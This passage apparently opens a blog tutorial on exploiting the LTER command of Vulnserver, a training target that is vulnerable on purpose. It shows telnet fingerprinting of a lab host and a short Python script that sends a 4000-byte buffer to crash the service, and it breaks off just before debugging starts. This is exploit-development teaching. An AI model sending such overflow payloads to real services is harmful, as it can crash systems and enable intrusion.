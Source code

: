 In this post, we will exploit the Vulnserver `LTER` command.

We’ll have to use techniques we’ve learned on our previous posts and
include others to exploit that command successfully.

## Fingerprinting LTER

The enumeration part is the most important step. This will lead us to
the right path of exploiting our target.

We can create a new connection and see how `LTER` command works:

``` console
$ telnet 192.168.0.20 9999
Trying 192.168.0.20...
Connected to 192.168.0.20.
Escape character is '^]'.
Welcome to Vulnerable Server! Enter HELP for help.
LTER me
LTER COMPLETE
LTER *
LTER COMPLETE
LTER 9
LTER COMPLETE
LTER !@#$$%&*()
LTER COMPLETE
```

Now try with something bulkier:

<div class="imgblock">

![Crash](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331206/blog/vulnserver-lter-seh/crash1_yts1qc.gif)

</div>

Hmm, something’s not right. We can create an initial exploit to test
faster.

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 4000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    fd.recv(128)
```

Now use a debugger to see what’s going on:
